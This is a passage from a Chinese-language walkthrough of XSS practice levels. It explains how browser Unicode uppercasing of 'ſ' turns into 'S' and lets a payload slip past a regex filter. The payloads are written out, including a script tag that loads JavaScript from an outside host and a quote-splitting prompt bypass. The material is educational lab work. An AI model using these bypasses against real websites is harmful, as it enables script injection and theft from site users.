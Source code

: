 > The special part here is the transformation behavior. Not all Unicode characters have matching representations when casted to capitals - so browsers often tend to simply take a look-alike, best-fit mapping ASCII character instead. There’s a fairly large range of characters with this behavior and all browsers do it a bit differently.

并非所有的字符串都有大写，有时候浏览器会将他们转换成相似的形式，而且每个浏览器行为不同

例如chrome中会将`ſ`大写转化后变成`S`从而绕过正则，产生`SCRIPT`标签

于是就可以构造`<ſcript src=//kingkk.com/2.js></ſcript>`，在chorme中会被转换成

```
<SCRIPT SRC=//KINGKK.COM/2.JS></SCRIPT>
```

http和域名是大小写不敏感的，linux是大小写敏感的，我们只要在自己的服务器下放置`2.JS`文件即可

![](xss练习记录\15.png)

## level 10

感觉比较简单了，进行了两次过滤，只要在prompt中插入一个单引号就可以了

```
pro'mpt(1)
```

![](D:\Code\kingkaki.github.io\source\_posts\xss练习记录\16.png)



## level 11
